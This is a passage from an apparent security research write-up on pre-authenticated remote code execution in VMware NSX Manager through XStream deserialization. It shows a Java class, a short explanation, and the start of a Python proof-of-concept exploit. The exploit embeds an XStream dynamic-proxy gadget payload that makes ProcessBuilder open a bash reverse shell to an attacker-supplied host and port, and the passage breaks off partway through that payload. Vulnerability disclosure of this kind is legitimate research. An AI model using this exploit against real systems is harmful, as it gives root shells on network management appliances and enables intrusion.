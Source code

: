 ```java
/*    */ @XStreamAlias("securityProfile")
/*    */ public class SecurityProfileDto
```

An attacker can send a specially crafted `XStream` marshalled payload with a dynamic proxy and trigger remote code execution in the context of root!

## Proof of Concept

<img src="/assets/images/eat-what-you-kill-pre-authenticated-remote-code-execution-in-vmware-nsx-manager/popthyshell.png" alt="Courtesy of @lystena" />

*Image Courtesy of [@lystena](https://twitter.com/lystena)*

```py
#!/usr/bin/env python3
"""
VMWare NSX Manager XStream Deserialization of Untrusted Data Remote Code Execution Vulnerability
Version: 6.4.13-19307994
File: VMware-NSX-Manager-6.4.13-19307994-disk1.vmdk
SHA1: f828eccd50d5f32500fb1f7a989d02bddf705c45
Found by: Sina Kheirkhah of MDSec and Steven Seeley of Source Incite
"""

import socket
import sys
import requests
from telnetlib import Telnet
from threading import Thread
from urllib3 import disable_warnings, exceptions
disable_warnings(exceptions.InsecureRequestWarning)

xstream = """
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>bash</string>
                    <string>-c</string>
                    <string>bash -i &#x3e;&#x26; /dev/tcp/{rhost}/{rport} 0&#x3e;&#x26;1</string>
```